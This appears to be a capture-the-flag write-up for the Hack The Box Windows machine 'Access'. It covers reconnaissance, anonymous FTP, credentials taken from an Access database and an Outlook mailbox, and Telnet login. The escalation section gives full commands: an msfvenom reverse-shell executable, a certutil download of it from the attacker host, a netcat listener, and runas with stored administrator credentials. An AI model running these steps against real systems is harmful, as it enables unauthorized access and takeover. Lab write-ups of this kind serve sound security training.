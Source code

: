 # Access

**Machine Information**

	IP : 10.10.10.98
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan` which should reveal three open ports: `21`, `23`, and `5000`.

```
rustscan -a 10.10.10.98 -- -sC -sV
```

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**FTP**

An FTP server is running on port 21 and we can sign in as an anonymous user.

```
ftp 10.10.10.98
```

After exploring the `Backups` and `Engineer` directory we find two files that we can download. `Access Control.zip` and `backup.mdb`.

```
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb

ftp> cd Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
```

Download both of these files from the FTP server. If you are having issues downloading files try turning passive mode off and changing to binary mode.

```
ftp> passive off
Passive mode: off; fallback to active mode: off.
ftp> binary
200 Type set to I.
```

**MDBTools**

The file `Access Control.zip` is password protected so we can move on. For accessing the `backup.mdb` file I used `mdb-tables` which can be installed with the following command:

```
sudo apt install mdbtools
```

Use `mdb-tables` to dump the table information.

```
mdb-tables backup.mdb
```

From the output there is a table called `auth_user` that could be useful. Dumping the contents of the table reveals some credentials.

```
mdb-json backup.mdb auth_user
```

```json
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"REDACTED","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

Use the user credentials for `Engineer` to extract the `Access Control.zip` archive. This will reveal a file called `Access Control.pst` which can be read using the tool `readpst`. To install this use the following command:

```
sudo apt install pst-utils
```

Running this tool on the `Access Control.pst`file will create a new file called `Access Control.mbox` which is an email.

```
readpst 'Access Control.pst'  
```

Open this email to find the credentials for the `security` account.

```
...
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
...
```

**Telnet**

We can try to login into `telnet` using the credentials for the `security` user.

```
telnet -l security 10.10.10.98
```

Success!

```
*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

The user flag can be found in the following directory:

```
C:\Users\security\Desktop\user.txt
```

### Privilege Escalation

**Stored Credentials**

During our initial enumeration we find stored credentials for the `Administrator` account.

```
cmdkey /list
```

```
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

We can impersonate the `Administrator` using their stored credentials to gain access to their account. Create a reverse shell executable using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Upload the payload to the target machine.

```
python -m http.server 80
```

```
certutil -urlcache -split -f http://10.10.14.4/shelly.exe shelly.exe
```

Start a `netcat` listener on our attack machine. Once listening we can run this executable as the `Administrator` user with the `runas` command to gain a shell with elevated privileges.

```
rlwrap nc -nvlp 9001
```

```
runas /savecred /user:ACCESS\Administrator "C:\Users\security\shelly.exe"
```

Success!

```
C:\Windows\system32>whoami
access\administrator
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
